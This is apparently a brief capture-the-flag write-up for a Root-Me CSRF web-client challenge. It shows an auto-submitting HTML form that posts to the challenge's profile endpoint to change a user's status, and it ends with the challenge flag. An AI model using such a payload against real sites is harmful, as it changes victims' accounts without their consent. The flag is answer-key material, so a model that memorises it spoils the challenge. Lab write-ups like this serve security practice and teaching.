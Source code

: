 /ch22/?action=contact
```
<form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
	<input type="text" name="username" value="user">
	<input type="checkbox" name="status" checked >
	<button type="submit">Submit</button>
</form>

<script>
	document.csrf_form.submit();
</script>
```

/ch22/?action=private
> Good job dude, flag is : Csrf_Fr33style-L3v3l1!
